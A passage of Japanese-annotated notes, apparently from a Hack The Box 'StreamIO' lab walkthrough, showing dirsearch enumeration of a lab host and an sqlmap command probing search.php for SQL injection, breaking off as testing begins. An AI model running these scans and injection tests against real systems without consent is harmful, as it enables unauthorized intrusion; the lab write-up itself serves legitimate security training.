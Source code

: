 
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/machine/StreamIO]
└─$ dirsearch -u https://watch.streamIO.htb/ -t 50 -i 200           
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                                               
 (_||| _) (/_(_|| (_| )                                                                                                                                                        
                                                                                                                                                                               
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Desktop/HTB/machine/StreamIO/reports/https_watch.streamIO.htb/__25-08-21_01-06-34.txt

Target: https://watch.streamIO.htb/

[01:06:34] Starting:                                                                                                                                                           
[01:06:49] 200 -    1KB - /favicon.ico                                      
[01:07:01] 200 -  248KB - /search.php                                       
                                                                             
Task Completed   
```


- `https://watch.streamIO.htb/search.php`
	- SQLインジェクションができるのか確認する
![](https://i.imgur.com/EkCPXHg.png)

## LDAP
- 」脆弱性があるかを確認する
```bash
┌──(kali㉿kali)-[~/Desktop/HTB/machine/StreamIO]
└─$ sqlmap -u "https://watch.streamio.htb/search.php" \
  --data="q=hi" \
  -p q --level 5 --risk 3
        ___
       __H__                                                                                                                                                                   
 ___ ___[']_____ ___ ___  {1.9.6#stable}                                                                                                                                       
|_ -| . [.]     | .'| . |                                                                                                                                                      
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                      
      |_|V...       |_|   https://sqlmap.org                                                                                                                                   

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 01:38:46 /2025-08-21/

[01:38:46] [INFO] testing connection to the target URL
[01:38:47] [INFO] testing if the target URL content is stable
[01:38:48] [INFO] target URL content is stable
[01:38:48] [WARNING] heuristic (basic) test shows that POST parameter 'q' might not be injectable
[01:38:49] [INFO] testing for SQL injection on POST parameter 'q'
[01:38:49] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
```
